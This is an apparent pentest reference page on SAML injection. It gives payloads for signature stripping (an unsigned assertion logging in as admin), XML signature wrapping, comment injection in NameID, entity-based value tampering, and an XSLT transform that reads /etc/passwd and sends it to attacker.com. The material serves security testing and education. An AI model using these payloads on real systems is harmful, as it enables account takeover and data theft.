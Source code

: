 +++
title = "SAML Injection"
date = '2022-10-16'
description = 'All about SAML injection techniques, methods, payloads, how/why/when they work.'
include_toc = 'true'
+++
# SAML Injection

> Security Assertion Markup Language (SAML) is an open standard that allows security credentials to be shared by multiple computers across a network. When using SAML-based Single Sign-On (SSO), three distinct parties are involved. There is a user (the so-called principal), an IDentity Provider (IDP), and a cloud application Service Provider (SP).  - centrify


## Tools

- [SAML Raider - Burp Extension](https://github.com/SAMLRaider/SAMLRaider)
- [SAML Support - ZAP Addon](https://www.zaproxy.org/docs/desktop/addons/saml-support/)

## Authentication Bypass

A SAML Response should contain the `<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"`.

### Invalid Signature

Signatures which are not signed by a real CA are prone to cloning. Ensure the signature is signed by a real CA. If the certificate is self-signed, you may be able to clone the certificate or create your own self-signed certificate to replace it.

### Signature Stripping

> [...]accepting unsigned SAML assertions is accepting a username without checking the password - @ilektrojohn

The goal is to forge a well formed SAML Assertion without signing it. For some default configurations if the signature section is omitted from a SAML response, then no signature verification is performed.

Example of SAML assertion where `NameID=admin` without signature.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="http://localhost:7001/saml2/sp/acs/post" ID="id39453084082248801717742013" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
    <saml2:Issuer xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" Format="urn:oasis:names:tc:SAML:2.0:nameidformat:entity">REDACTED</saml2:Issuer>
    <saml2p:Status xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol">
        <saml2p:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </saml2p:Status>
    <saml2:Assertion xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" ID="id3945308408248426654986295" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
        <saml2:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">REDACTED</saml2:Issuer>
        <saml2:Subject xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameidformat:unspecified">admin</saml2:NameID>
            <saml2:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml2:SubjectConfirmationData NotOnOrAfter="2018-04-22T10:33:53.593Z" Recipient="http://localhost:7001/saml2/sp/acs/post" />
            </saml2:SubjectConfirmation>
        </saml2:Subject>
        <saml2:Conditions NotBefore="2018-04-22T10:23:53.593Z" NotOnOrAfter="2018-0422T10:33:53.593Z" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AudienceRestriction>
                <saml2:Audience>WLS_SP</saml2:Audience>
            </saml2:AudienceRestriction>
        </saml2:Conditions>
        <saml2:AuthnStatement AuthnInstant="2018-04-22T10:28:49.876Z" SessionIndex="id1524392933593.694282512" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AuthnContext>
                <saml2:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</saml2:AuthnContextClassRef>
            </saml2:AuthnContext>
        </saml2:AuthnStatement>
    </saml2:Assertion>
</saml2p:Response>
```

### XML Signature Wrapping Attacks

XML Signature Wrapping (XSW) attack, some implementations check for a valid signature and match it to a valid assertion, but do not check for multiple assertions, multiple signatures, or behave differently depending on the order of assertions.

- XSW1 – Applies to SAML Response messages. Add a cloned unsigned copy of the Response after the existing signature.
- XSW2 – Applies to SAML Response messages. Add a cloned unsigned copy of the Response before the existing signature.
- XSW3 – Applies to SAML Assertion messages. Add a cloned unsigned copy of the Assertion before the existing Assertion.
- XSW4 – Applies to SAML Assertion messages. Add a cloned unsigned copy of the Assertion within the existing Assertion.
- XSW5 – Applies to SAML Assertion messages. Change a value in the signed copy of the Assertion and adds a copy of the original Assertion with the signature removed at the end of the SAML message.
- XSW6 – Applies to SAML Assertion messages. Change a value in the signed copy of the Assertion and adds a copy of the original Assertion with the signature removed after the original signature.
- XSW7 – Applies to SAML Assertion messages. Add an “Extensions” block with a cloned unsigned assertion.
- XSW8 – Applies to SAML Assertion messages. Add an “Object” block containing a copy of the original assertion with the signature removed.


In the following example, these terms are used.

- FA: Forged Assertion
- LA: Legitimate Assertion
- LAS: Signature of the Legitimate Assertion

```xml
<SAMLResponse>
  <FA ID="evil">
      <Subject>Attacker</Subject>
  </FA>
  <LA ID="legitimate">
      <Subject>Legitimate User</Subject>
      <LAS>
         <Reference Reference URI="legitimate">
         </Reference>
      </LAS>
  </LA>
</SAMLResponse>
```

In the Github Enterprise vulnerability, this request would verify and create a sessions for `Attacker` instead of `Legitimate User`, even if `FA` is not signed.


### XML Comment Handling

A threat actor who already has authenticated access into a SSO system can authenticate as another user without that individual’s SSO password. This [vulnerability](https://www.bleepstatic.com/images/news/u/986406/attacks/Vulnerabilities/SAML-flaw.png) has multiple CVE in the following libraries and products.

- OneLogin - python-saml - CVE-2017-11427
- OneLogin - ruby-saml - CVE-2017-11428
- Clever - saml2-js - CVE-2017-11429
- OmniAuth-SAML - CVE-2017-11430
- Shibboleth - CVE-2018-0489
- Duo Network Gateway - CVE-2018-7340

Researchers have noticed that if an attacker inserts a comment inside the username field in such a way that it breaks the username, the attacker might gain access to a legitimate user's account.

```xml
<SAMLResponse>
    <Issuer>https://idp.com/</Issuer>
    <Assertion ID="_id1234">
        <Subject>
            <NameID>user@user.com<!--XMLCOMMENT-->.evil.com</NameID>
```
Where `user@user.com` is the first part of the username, and `.evil.com` is the second.

### XML External Entity

An alternative exploitation would use `XML entities` to bypass the signature verification, since the content will not change, except during XML parsing.

In the following example:
- `&s;` will resolve to the string `"s"`
- `&f1;` will resolve to the string `"f1"`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE Response [
  <!ENTITY s "s">
  <!ENTITY f1 "f1">
]>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol"
  Destination="https://idptestbed/Shibboleth.sso/SAML2/POST"
  ID="_04cfe67e596b7449d05755049ba9ec28"
  InResponseTo="_dbbb85ce7ff81905a3a7b4484afb3a4b"
  IssueInstant="2017-12-08T15:15:56.062Z" Version="2.0">
[...]
  <saml2:Attribute FriendlyName="uid"
    Name="urn:oid:0.9.2342.19200300.100.1.1"
    NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:uri">
    <saml2:AttributeValue>
      &s;taf&f1;
    </saml2:AttributeValue>
  </saml2:Attribute>
[...]
</saml2p:Response>
```

The SAML response is accepted by the service provider. Due to the vulnerability, the service provider application reports "taf" as the value of the "uid" attribute.


### Extensible Stylesheet Language Transformation

An XSLT can be carried out by using the `transform` element.

![http://sso-attacks.org/images/4/49/XSLT1.jpg](http://sso-attacks.org/images/4/49/XSLT1.jpg)    
Picture from [http://sso-attacks.org/XSLT_Attack](http://sso-attacks.org/XSLT_Attack)    

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl"select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```

## References

- [SAML Burp Extension - ROLAND BISCHOFBERGER - JULY 24, 2015](https://blog.compass-security.com/2015/07/saml-burp-extension/)
- [The road to your codebase is paved with forged assertions - @ilektrojohn - March 13, 2017](http://www.economyofmechanism.com/github-saml)
- [SAML_Security_Cheat_Sheet.md - OWASP](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/SAML_Security_Cheat_Sheet.md)
- [On Breaking SAML: Be Whoever You Want to Be - Juraj Somorovsky, Andreas Mayer, Jorg Schwenk, Marco Kampmann, and Meiko Jensen](https://www.usenix.org/system/files/conference/usenixsecurity12/sec12-final91-8-23-12.pdf)
- [Making Headlines: SAML - March 19, 2018 - Torsten George](https://blog.centrify.com/saml/)
- [Vulnerability Note VU#475445 - 2018-02-27 - Carnegie Mellon University](https://www.kb.cert.org/vuls/id/475445/)
- [ORACLE WEBLOGIC - MULTIPLE SAML VULNERABILITIES (CVE-2018-2998/CVE-2018-2933) - Denis Andzakovic - Jul 18, 2018](https://pulsesecurity.co.nz/advisories/WebLogic-SAML-Vulnerabilities)
- [Truncation of SAML Attributes in Shibboleth 2 - 2018-01-15 - redteam-pentesting.de](https://www.redteam-pentesting.de/de/advisories/rt-sa-2017-013/-truncation-of-saml-attributes-in-shibboleth-2)
- [Attacking SSO: Common SAML Vulnerabilities and Ways to Find Them - March 7th, 2017 - Jem Jensen](https://blog.netspi.com/attacking-sso-common-saml-vulnerabilities-ways-find/)
- [How to Hunt Bugs in SAML; a Methodology - Part I - @epi052](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)
- [How to Hunt Bugs in SAML; a Methodology - Part II - @epi052](https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/)
- [How to Hunt Bugs in SAML; a Methodology - Part III - @epi052](https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/)
